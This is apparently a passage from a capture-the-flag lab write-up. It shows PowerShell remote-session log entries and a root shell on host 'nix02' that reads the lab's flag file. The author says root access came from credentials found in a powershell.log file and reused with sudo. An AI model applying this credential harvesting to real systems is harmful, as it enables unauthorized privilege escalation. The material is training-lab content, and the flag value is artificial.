Jul  4 21:18:58 NIX02 powershell[498956]: (7.2.1:F:80) [ScriptBlock_Compile_Detail:ExecuteCommand.Create.Verbose] Creating Scriptblock text (1 of 1):#012Enter-PSSession -ComputerName 192.168.24.89 -Port 15985 -Credential (Get-Credential -UserName home\joe -Message EnterPass) -Authentication Negotiate#012#012ScriptBlock ID: f06d0177-5bd7-4a4e-9b60-3a2fe441431c#012Path: 
Jul  4 21:21:14 NIX02 powershell[499190]: (7.2.1:F:80) [ScriptBlock_Compile_Detail:ExecuteCommand.Create.Verbose] Creating Scriptblock text (1 of 1):#012Enter-PSSession -ComputerName 192.168.24.89 -Port 15985 -Credential (Get-Credential -UserName home\joe -Message EnterPass) -Authentication Negotiate#012#012ScriptBlock ID: 285785cd-5df6-4514-a53f-de8fe6df630c#012Path: 
Jul  4 21:26:26 NIX02 powershell[499262]: (7.2.1:F:80) [ScriptBlock_Compile_Detail:ExecuteCommand.Create.Verbose] Creating Scriptblock text (1 of 1):#012Enter-PSSession -ComputerName 192.168.24.89 -Port 15985 -Credential (Get-Credential -UserName home\joe -Message EnterPass) -Authentication Negotiate#012#012ScriptBlock ID: c142bff3-ae1d-4bdb-9943-8063acdebf71#012Path: 
Jul  5 07:04:37 NIX02 powershell[575358]: (7.2.1:F:80) [ScriptBlock_Compile_Detail:ExecuteCommand.Create.Verbose] Creating Scriptblock text (1 of 1):#012Enter-PSSession -ComputerName 192.168.24.89 -Port 15985 -Credential (Get-Credential -UserName home\joe -Message EnterPass) -Authentication Negotiate#012#012ScriptBlock ID: 3cbc09a2-0b9b-45b5-ab24-842c237c825f#012Path:
```

&nbsp;

# Attempt NR#2

Here I had to re-spawn the environment but I it worked flawlesly and I got another flag:

```
root@nix02:~# cd /root
cd /root
root@nix02:~# ls
ls
flag.txt
root@nix02:~# ls -al
ls -al
total 32
drwx------  5 root root 4096 Jul 31  2023 .
drwxr-xr-x 24 root root 4096 Nov  9  2023 ..
lrwxrwxrwx  1 root root    9 Jul 31  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  3 root root 4096 Jul 12  2022 .cache
-r--------  1 root root   29 Aug 18  2018 flag.txt
drwx------  3 root root 4096 Aug 18  2018 .gnupg
drwxr-xr-x  3 root root 4096 Aug 19  2018 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
root@nix02:~# cat flag.txt
cat flag.txt
OFFSHORE{W@tCH_TH05e_Gr0up$}
root@nix02:~#
```

I used the credentials found in the powershell.log file to sudo as root.



And I don't see more stuff here.

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;